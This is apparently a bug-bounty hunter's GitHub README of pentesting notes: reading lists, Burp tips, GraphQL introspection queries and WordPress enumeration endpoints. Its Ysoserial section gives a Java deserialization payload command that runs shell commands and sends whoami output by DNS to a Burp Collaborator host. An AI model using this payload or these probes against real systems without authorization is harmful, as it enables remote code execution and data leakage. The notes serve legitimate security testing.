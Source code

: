 # EasyG

EasyG started out as a script that I use to automate some information gathering tasks for PenTesting and Bug Hunting. Now it is more than that.

Here I gather all the resources about PenTesting and Bug Bounty Hunting that I find interesting: notes, payloads that I found useful and many links to blogs and articles that I want to read (because having a lot of bookmarks bothered me) and more.

### To Read list
**GraphQL**
- https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application
- https://github.com/righettod/poc-graphql
- https://lab.wallarm.com/graphql-batching-attack/

**Miscellaneous**
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/jwt
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/blogposts.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/media.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md
- https://www.bugcrowd.com/hackers/bugcrowd-university/
- https://www.microsoft.com/en-us/msrc/bounty-example-report-submission?rtc=1

### Blog / Writeups / News
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://hackerone.com/hacktivity
- https://portswigger.net/research
- https://www.skeletonscribe.net
- https://cvetrends.com/

### Burp suite

To add a domain + subdomains in advanced scopes: `.*\.test\.com$`

**Cool extensions**
- [Autorize](https://github.com/PortSwigger/autorize)
- [InQL](https://github.com/doyensec/inql)
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)

### Ysoserial

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here I needed to run the command `host` and `whoami`:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(whoami).<MY-'RATOR-ID>.burpcollaborator.net' | gzip | base64
```

### GraphQL

To analyze the schema: [vangoncharov.github.io/graphql-voyager/](https://ivangoncharov.github.io/graphql-voyager/) or [InQL](https://github.com/doyensec/inql) for Burp Suite.

**GraphQL Introspection query**

```
{"query": "{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

```
{query: __schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}# Write your query or mutation here
```

```
{"operationName":"IntrospectionQuery","variables":{},"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n"}
```

### Wordpres

- Data exposure:
  - `/wp-json/wp/v2/users/`
  - `/wp-json/th/v1/user_generation`
  - `/?rest_route=/wp/v2/users`
- xmlrpc.php enabled, [reference](https://hackerone.com/reports/138869). Send a post request to this endpoint with a body like this:
  ```xml
  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
  </methodCall>
  ```
- Scan with WPScan [github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
